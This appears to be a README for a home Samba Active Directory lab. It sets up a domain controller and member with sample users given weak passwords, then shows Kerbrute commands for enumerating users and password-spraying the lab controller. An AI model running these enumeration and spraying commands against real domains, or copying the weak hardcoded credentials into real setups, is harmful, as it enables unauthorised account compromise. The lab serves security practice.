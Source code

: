 # Samba

## Domain Controller

1. Set up the hostname:
	```bash
	hostnamectl set-hostname dc1
	```

2. Add the following line in the `/etc/hosts` file: 
		`192.168.122.10 dc1.polaris.org dc1`

3. Change to a static IP address in `/etc/netplan/50-cloud-init.yaml`:  
    ```
    addresses: [192.168.122.10/24]
    gateway4: 192.168.122.1
    nameservers:
    	addresses: [192.168.122.10, 8.8.8.8]
     ```
4. Save the changes:
    ```bash
    sudo netplan apply
    ```

5. Follow the installation from the Samba documentation:
     ```bash
    sudo -s
    wget https://download.samba.org/pub/samba/stable/samba-4.18.5.tar.gz
    tar xf samba-4.18.5.tar.gz
	cd samba-4.18.5/bootstrap/generated-dists/ubuntu1804
	./bootstrap.sh
	cd ../../..
	./configure
	make
	sudo make install
	/usr/local/samba/bin/samba-tool domain provision --use-rfc2307 --interactive
	```
	Add the lines to the `etc/resolv.conf` file:  
	
        search polaris.org
        nameserver 192.168.122.10
	  
	```bash
	systemctl disable --now systemd-resolved.service
	cp /usr/local/samba/private/krb5.conf /etc/krb5.conf
	# Start samba:
 	/usr/local/samba/sbin/samba
	```

6a. Add the lines to the `etc/resolv.conf`:
	```search polaris.org
	   nameserver 192.168.122.10```

6b. systemctl disable --now systemd-resolved.service

7. Start samba: `/usr/local/samba/sbin/samba`

8. Added aditional users to the domain:
   ```bash
	/usr/local/samba/bin/samba-tool user create Alice Alice1234
	/usr/local/samba/bin/samba-tool user create Bob Apolo1969
   ```

## Testing configuration

### Verifying the File Server
1.  `/usr/local/samba/bin/smbclient -L localhost -N`
2. `/usr/local/samba/bin/smbclient //localhost/netlogon -UAdministrator -c 'ls'`

### Verifying DNS

1. `host -t SRV _ldap._tcp.polaris.org.`
2. `host -t SRV _kerberos._udp.polaris.org.`
3. `host -t A dc1.polaris.org.`

### Verifying Kerberos

1. `kinit administrator`
2. `klist`

## Domain Member

1. Set the DNS server IP and AD DNS domain in the `/etc/resolv.conf`:

		nameserver 192.168.122.10
		search polaris.org
3. To configure Kerberos on the domain member, set the following in the `/etc/krb5.conf` file:

        [libdefaults]
            		default_realm = POLARIS.ORG
            		dns_lookup_realm = false
            		dns_lookup_kdc = true

4. Follow the installation from the Samba documentation:
     ```bash
	sudo -s
	wget https://download.samba.org/pub/samba/stable/samba-4.18.5.tar.gz
    tar xf samba-4.18.5.tar.gz
	cd samba-4.18.5/bootstrap/generated-dists/ubuntu1804
	./bootstrap.sh
	cd ../../..
	./configure
	make
	sudo make install
	 ```
5. Configuring the `autorid` Back End:

		[global]
		       security = ADS
		       workgroup = POLARIS
		       realm = POLARIS.ORG

		       log file = /var/log/samba/%m.log
		       log level = 1

		       template shell = /bin/bash
			   template homedir = /home/%U

		       # Default ID mapping configuration using the autorid
		       # idmap backend. This will work out of the box for simple setups
		       # as well as complex setups with trusted domains.
		       # NOTE: You cannot and must not use 'winbind use default domain = yes'
		       #       with the autorid idmap backend. This means that your users
		       #       will need to login using the format 'DOMAIN\username'.
		       #       If you want your users to login just using 'username' then
		       #       you cannot use the 'autorid' idmap backend.
		       idmap config * : backend = autorid
		       idmap config * : range = 10000-24999999

6. Reload the Samba configuration:

        /usr/local/samba/bin/smbcontrol all reload-config

7. Map the domain accounts to a local account to execute file operations on the domain member's file system as a different user than the account that requested the operation on the client:

    * Add the following parameter to the `[global]` section of your smb.conf file:
    
    		username map = /usr/local/samba/etc/user.map
    * Create the `/usr/local/samba/etc/user.map` file with the following content:
    
    		!root = POLARIS\Administrator

8. To join the host to an Active Directory (AD), enter:

		/usr/local/samba/bin/net ads join -U administrator

		OR

		/usr/local/samba/bin/samba-tool domain join samdom.example.com MEMBER -U administrator

9. Start the `smbd`, `nmbd` and `winbindd`  services to have a fully functioning Unix domain member:

    **[Note]:** If you do not require Network Browsing, you do not need to start the `nmbd` service on a Unix domain member.

   ```
        /usr/local/samba/sbin/smbd
   	/usr/local/samba/sbin/winbindd
	/usr/local/samba/sbin/nmbd
   ```
        
## Testing configuration

### Verifying DNS resolution

1. `nslookup dc1.polaris.org`
2. `host dc1.polaris.org`


### Resolving SRV Records
1.   
	    $ nslookup  
	    > set type=SRV  
	    > _ldap._tcp.polaris.org
    
2. `host -t SRV _ldap._tcp.polaris.org`


### Verifying the Winbindd Connectivity

1. `/usr/local/samba/bin/wbinfo --ping-dc`

## Attacker

### Requesites  installation

1. Install Kerbrute:

		wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64

2. Rename the the binary downloaded:

		mv kerbrute_linux_amd64 kerbrute

3. Give executable permissions to kerbrute:

		chmod +x kerbrute	


### User Enumeration
1. Enumerate the users in the Active Directory Domain Controller using a users list

        ./kerbrute userenum -d polaris.org users.txt --dc 192.168.122.10

### Password Spraying
1. Perform an horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users. 

        ./kerbrute passwordspray -d polaris.org valid_users.txt --dc 192.168.122.10 Passw0rd
